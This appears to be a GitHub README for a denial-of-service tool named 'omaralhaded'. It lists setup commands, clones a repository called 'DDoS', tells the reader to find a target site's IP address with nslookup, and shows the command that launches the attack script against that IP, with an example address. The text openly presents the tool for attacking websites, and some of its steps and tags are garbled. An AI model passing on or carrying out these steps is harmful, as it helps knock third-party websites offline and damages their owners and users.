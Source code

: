 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/omaralhaded00/DDoS.git

omar alhaded need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd omar alhaded<br>
$ python3 omaralhaded.py -s [ip Address] -t 135<br>
example:<br>
$ python3 omaralhaded.py -s 123.45.67.89 -t 135<br>

Video Tutorial:
How to use omaralhaded [`Watch it`](soon)
